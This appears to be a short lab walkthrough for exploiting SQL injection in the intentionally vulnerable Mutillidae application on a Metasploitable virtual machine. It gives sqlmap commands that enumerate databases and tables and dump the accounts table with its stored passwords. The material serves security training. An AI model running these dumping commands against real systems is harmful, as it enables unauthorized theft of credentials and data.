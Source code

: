 We will use the tool **Sqlmap**

- Connect to the Metasploitable machine:

````
ssh msfadmin@ip_addr
````

- Edit the config.inc file in /var/www/mutillidae/
![](img/mutillidae.png)

- In the mutillidae page, select OWASP Top 10, A1 Injection, SQLi -Extract data, User info
![](img/mutillidae 2.png)

- Reload
- Save the intercept on a txt file
Follow the next commands:

````
sqlmap -r sqlinjection.txt --dbs

sqlmap -r sqlinjection.txt -D owasp10 --tables

sqlmap -r sqlinjection.txt -D owasp10 -T accounts --dump
````

We get the accounts and passwords:
![](img/accounts.png)